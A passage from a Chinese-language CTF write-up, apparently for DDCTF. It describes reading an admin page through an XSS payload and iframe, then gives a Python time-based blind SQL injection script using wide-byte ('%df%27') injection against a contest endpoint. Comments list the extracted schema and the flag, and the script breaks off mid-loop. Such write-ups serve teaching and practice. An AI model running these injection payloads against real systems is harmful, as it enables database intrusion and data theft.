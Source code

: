 ```javascript
a.onerror = function (){
    s("5am3 error!");
};
```


这里还有一个坑点是，渲染payload是在admin.php，此时如果读当前页面源码，返回的是你的payload。必须再次通过iframe读取admin.php，才能获取到本来的源码。

从源码中，可以得到一个接口：

```
http://117.51.147.2/Ze02pQYLf5gGNyMn/query_aIeMu0FUoVrW0NWPHbN6z4xh.php?id=
```

这就是传说中的注入点！！！要不是主办方肯定他是，我都不敢信...

最后终于通过宽字节注入，试出了点眉目。

p.s.注入过程真心迷，不跑5遍以上脚本，读不出来正确的东西

```python
import requests

url = "http://117.51.147.2/Ze02pQYLf5gGNyMn//query_aIeMu0FUoVrW0NWPHbN6z4xh.php?id={payload}"

sdb ="SELECT database()"
sdbt = "database()"

sschema = "SELECT group_concat(schema_name) from information_schema.SCHEMATA"
stable = "SELECT group_concat(table_name) from information_schema.tables where table_schema=CHAR(99,116,102,100,98)"
scolumn = "SELECT group_concat(column_name) from information_schema.columns where table_name=CHAR(99,116,102,95,102,104,109,72,82,80,76,53)"
sflag = "SELECT group_concat(ctf_value) from ctfdb.ctf_fhmHRPL5"
 

script = sflag
charIndex = 1

p1 = "1%df%27 || if(ascii(substr(("+script+"),{charIndex},1))={i},sleep(100),5)%23"
plendatabase = "1%df%27 || if(length(database())={i},sleep(100),5)%23"
ptest = "1%df%27 || sleep(5)%23"

# len(database) = 3
# database() = say

# schema = information_schema,ctfdb,say
# table = ctf_fhmHRPL5
# colum = ctf_value
# DDCTF{GqFzOt8PcoksRg66fEe4xVBQZwp3jWJS}

string = "qwertyuiopasdfghjklzxcvbnm"
str1=""

slist = range(33,97)
slist += range(123,127)
flag=""

onpayload = p1
# print slist
for j in range(1,50):
	for i in range(32,127):
		try:
			# i = str(hex(i))
			i = str(i)
			payload = onpayload.replace("{i}",i).replace("{charIndex}",str(j))	
			r = requests.get(url+payload,timeout=3)
```